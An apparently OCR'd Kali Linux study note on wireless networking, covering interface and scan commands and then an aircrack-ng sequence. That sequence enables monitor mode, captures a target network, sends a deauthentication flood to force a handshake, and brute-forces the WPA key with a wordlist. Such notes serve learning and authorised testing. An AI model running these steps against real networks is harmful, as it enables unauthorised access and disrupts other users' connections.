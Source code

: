 ### command for wifi interfaces

```
kali >iwconfig

lo         no wireless extensions
wlan0 IEEE 802.11bg     ESSID:off/ any
      Mode:Managed     Access Point:Not-Associated       Tx-Power = 20 dBm
      Retry short limit: 7       RTS     thr:off       Fragment thr:off
      Encryption key:off
      Power Management:off
eth0     no wireless extensions
```

```
kali >iwlist wlan0 scan

wlan0               Scan completed:                        
Cell 01 - Address: 88: AD: 43: 75: B3: 82                                            
Channel: 1                                            
Frequency: 2.412GHz (Channel 1)                                            
Quality = 70/ 70       Signal level =-38 dBm                                            
Encryption key:off                                            
ESSID:" Hackers-Arise"
```

The one we often see from wifi icon.

```
kali > nmcli dev wifi
*    SSID                       MODE         CHAN     RATE                  SIGNAL     BARS         SECURITY      
Hackers-Arise                   Infra        1        54 Mbits/ s           100                     WPA1 WPA2
Xfinitywifi                     Infra        1        54 Mbits/ s           75                      WPA2
TPTV1                           Infra        11       54 Mbits/ s           44                      WPA1 WPA2
```

To connect to an AP.  
`nmcli dev wifi connect AP-SSID password APpassword`  
`kali > nmcli dev wifi connect Hackers-Arise password 12345678`

### aircrack-ng

- To put wireless network in monitor mode, use the airmon-ng command.  
  `kali >airmon-ng start wlan0`  
  In the monitor mode, it can access all the wireless traffic. And your wireless interface will get a new name.
- To find key data from the wireless traffic.  
  `kali >airodump-ng wlan0mon`  
  Capture all packets on channel 10.  
  `airodump-ng -c 10 --bssid 01: 01: AA:BB:CC: 22 -w Hackers-ArisePSK wlan0mon`  
  Disconnect the connection and make it re-authenticat to capture hash.  
  `aireplay-ng --deauth 100 -a 01: 01: AA:BB:CC: 22-c A0: A3: E2: 44: 7C:E5 wlan0mon`  
  Finally brute force the password using password lists.  
  `aircrack-ng -w wordlist.dic -b 01: 01: AA:BB:CC: 22 Hacker-ArisePSK.cap`
